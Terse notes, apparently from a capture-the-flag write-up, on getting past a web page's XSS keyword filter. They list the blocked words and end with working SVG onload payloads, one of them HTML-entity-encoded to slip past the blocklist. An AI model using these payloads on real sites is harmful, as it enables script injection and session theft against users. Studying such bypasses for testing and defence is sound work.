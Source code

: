 robots.txt

fake backup

fake git

Bad words found: ),  onerror

no onload
no `<iframe`
no `<script`

It'll turn all char to lower and check

Bad words found:  onpageshow


Success `<svg/onload=alert`1`>`

<svg/onload=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>